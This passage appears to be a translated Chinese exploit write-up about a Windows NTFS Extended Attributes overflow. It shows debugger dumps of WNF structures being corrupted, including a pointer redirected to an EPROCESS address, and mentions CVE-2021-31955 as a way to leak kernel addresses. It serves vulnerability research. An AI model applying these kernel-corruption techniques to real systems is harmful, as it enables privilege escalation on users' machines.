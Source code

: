 在内存破坏发生之前，我们可以看到以下结构体值：  
```
1: kd> dt _WNF_NAME_INSTANCE ffffdd09b35c8310+0x10nt!_WNF_NAME_INSTANCE   +0x000 Header           : _WNF_NODE_HEADER   +0x008 RunRef           :_EX_RUNDOWN_REF   +0x010 TreeLinks        : _RTL_BALANCED_NODE   +0x028 StateName        :_WNF_STATE_NAME_STRUCT   +0x030 ScopeInstance    : 0xffffdd09`ad45d4a0 _WNF_SCOPE_INSTANCE   +0x038 StateNameInfo    : _WNF_STATE_NAME_REGISTRATION   +0x050 StateDataLock    : _WNF_LOCK   +0x058 StateData        : 0xffffdd09`b35b3e10_WNF_STATE_DATA   +0x060 CurrentChangeStamp : 1   +0x068 PermanentDataStore : (null)   +0x070 StateSubscriptionListLock : _WNF_LOCK   +0x078 StateSubscriptionListHead : _LIST_ENTRY [ 0xffffdd09`b35c8398 - 0xffffdd09`b35c8398 ]   +0x088 TemporaryNameListEntry : _LIST_ENTRY [ 0xffffdd09`b35c8ee8 - 0xffffdd09`b35c85e8 ]   +0x098 CreatorProcess   : 0xffff8d87`686c8080 _EPROCESS   +0x0a0 DataSubscribersCount : 0n0   +0x0a4 CurrentDeliveryCount : 0n0
```  
  
在我们触发 NTFS 扩展属性（Extended Attributes）溢出并覆盖了多个字段之后：  
```
1: kd> dt _WNF_NAME_INSTANCE ffffdd09b35c8310+0x10nt!_WNF_NAME_INSTANCE   +0x000 Header           : _WNF_NODE_HEADER   +0x008 RunRef           :_EX_RUNDOWN_REF   +0x010 TreeLinks        : _RTL_BALANCED_NODE   +0x028 StateName        :_WNF_STATE_NAME_STRUCT   +0x030 ScopeInstance    : 0x61616161`62626262 _WNF_SCOPE_INSTANCE   +0x038 StateNameInfo    : _WNF_STATE_NAME_REGISTRATION   +0x050 StateDataLock    : _WNF_LOCK   +0x058 StateData        : 0xffff8d87`686c8088_WNF_STATE_DATA   +0x060 CurrentChangeStamp : 1   +0x068 PermanentDataStore : (null)   +0x070 StateSubscriptionListLock : _WNF_LOCK   +0x078 StateSubscriptionListHead : _LIST_ENTRY [ 0xffffdd09`b35c8398 - 0xffffdd09`b35c8398 ]   +0x088 TemporaryNameListEntry : _LIST_ENTRY [ 0xffffdd09`b35c8ee8 - 0xffffdd09`b35c85e8 ]   +0x098 CreatorProcess   : 0xffff8d87`686c8080 _EPROCESS   +0x0a0 DataSubscribersCount : 0n0   +0x0a4 CurrentDeliveryCount : 0n0
```  
  
例如，StateData 指针已被修改为指向一个 EPROCESS 结构体的地址：  
```
1: kd> dx -id 0,0,ffff8d87686c8080 -r1 ((ntkrnlmp!_WNF_STATE_DATA *)0xffff8d87686c8088)((ntkrnlmp!_WNF_STATE_DATA*)0xffff8d87686c8088)                 : 0xffff8d87686c8088 [Type: _WNF_STATE_DATA *]    [+0x000] Header           [Type:_WNF_NODE_HEADER]    [+0x004] AllocatedSize    : 0xffff8d87 [Type: unsigned long]    [+0x008] DataSize         : 0x686c8088 [Type: unsigned long]    [+0x00c] ChangeStamp      : 0xffff8d87 [Type: unsigned long]PROCESS ffff8d87686c8080    SessionId: 1  Cid: 1760    Peb: 100371000  ParentCid: 1210    DirBase: 873d5000  ObjectTable: ffffdd09b2999380  HandleCount:  46.    Image: TestEAOverflow.exe
```  
  
我还利用了   
CVE-2021-31955  
 作为快速获取 EPROCESS 地址的方法。这在野外利用中被使用。然而，考虑到这个溢出漏洞的原始性和灵活性，预计这可能不是必需的，并且也可以在低完整性级别下被利用。  
  
不过这里仍然存在一些挑战，它并不像简单地用你想要查找的值覆盖 StateName 那样简单。  
### StateName 损坏  
  
要成功进行 StateName 查找，内部状态名称需要与查询的外部名称匹配。  
  
在这个阶段，值得更深入地探讨 StateName 查找过程。  
  
正如在   
Playing with the Windows Notification Facility  
 中提到的，每个 _WNF_NAME_INSTANCE  
 都根据其 StateName 被排序并放入   
AVL 树  
中。  
  